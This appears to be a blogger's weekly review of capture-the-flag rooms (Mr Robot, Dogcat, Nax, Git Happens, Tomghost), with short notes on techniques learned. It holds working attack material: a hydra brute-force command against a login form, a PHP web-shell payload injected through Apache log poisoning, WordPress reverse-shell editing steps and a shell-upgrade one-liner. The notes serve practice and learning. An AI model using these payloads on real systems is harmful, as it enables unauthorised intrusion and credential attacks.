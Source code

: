 ```yaml
---
title: Weekly Review 1
date: 2023-10-08
categories: [Review]
tags: [hydra, interactiveshell, wordpress, containerescape, logpoisoning]
img_path: /assets/review/
mermaid: true
---
```

> This is an overview of what I learned through the week, mostly things I encountered for the first time or simply wanted to revise.

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login **error message**. 
2. Capture POST request with Burp and get its **params**.
3. Try building a **username list** by using static pass.
4. If user(s) found, try the reverse to **crack pass**. 

 ```shell
 hydra -L <username_list> -p <static_pass> <target-ip> http-post-form "/<login_dir>:log=^USER^&pwd=^PASS^:F=<error message>" -t 30
 ```


### RCE on WordPpress

 1. We need admin acc for accessing Appearance --> **Editor**.
 2. Replance an appropriate, i.e. least used, Editor PHP script with reverse shell code. 

## Interactive terminal with Python


 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```


## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
### Log Poisoning
 
 1. **NULL Byte** usage: `%00` / `&`.
 2. If a `../` attack is possible in an Apache web server, we can target its **log file**, usually, under `/var/log/apache2/access.log`.
 3. Modify the **User-Agent** of the captured request by replacing it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
   
### Container Escape  
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).
   
## [Nax](https://cspanias.github.io/posts/Nax-Write-Up-(2023)/)  
   
### Nagios XI  
 
 Boosted Crontab used in DevOps for monitoring and generating alerts when something goes wrong (`/nagiosxi`).
   
### Piet Programming Language  
 
 We can pass it `.ppm` files and get back chars.
 
## [Git Happens](https://cspanias.github.io/posts/Git-Happens-Write-Up-(2023)/)
   
### GitTools  
   
 We can download and manipulate public-facing repos (`/.git`) with GitTools.
   
### Chaining commands
   
 ```shell
 # use " " as delimiter and pick the second field
 cut -d " " -f2
 
 # converts standard input into args to a command
 xargs
 ```
   
## [Tomghost](https://cspanias.github.io/posts/Tomghost-Write-Up-(2023)/)  
   
### Apache Tomcat  
   
 Apache Tomacat is a **web container** that can also be used as an HTTP(S) server. **Ghostcast** is a known vuln: if the *Apache Jserv Protocol (AJP)* is exposed (port 8009), we can read files from Tomcat's dirs. 
   
### GPG Encryption
   
GPG is a file encryption tool. 
```shell
# decrypt file
gpg -d <file.pgp>

# gpg file for John
gpg2john <file.asc> > new_file

# in case we need to pass a key to gpg
gpg --import <file.asc>
```
